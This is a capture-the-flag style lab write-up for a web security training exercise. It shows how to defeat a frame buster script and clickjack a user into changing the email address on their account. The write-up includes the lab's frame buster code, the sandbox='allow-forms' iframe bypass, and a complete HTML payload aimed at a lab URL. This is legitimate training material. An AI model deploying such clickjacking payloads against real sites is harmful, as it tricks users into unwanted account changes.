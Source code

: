 # Clickjacking with a frame buster script
# Objective
This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis
Website allows for prepopulation of `email` field using parameter in `GET` request.

|![](Images/image-6.png)|
|:--:| 
| *Change email functionality* |
| *Frame buster script* |
|![](Images/image-5.png)|
| *Prepopulation of email field via GET parameter* |

Frame buster script from image above:
```js
if(top != self) {  // Check if page is framed (inside <iframe>)
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
```

## Exploitation
To bypas frame buster script attacker can create `iframe` with `allow-forms` or `allow-scripts` atributes. Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This blocks frame busting behaviors while allowing functionality within the targeted site.

|![](Images/image-7.png)|
|:--:| 
| *Alligining "Click me" button* |


Final payload:
```html
<style>
    iframe {
        position:relative;
        width: 1000;
        height: 500;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 480;
        left: 80;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0aae000703b84840874f74a100f60079.web-security-academy.net/my-account?email=hacker@hacker.com"></iframe>
```


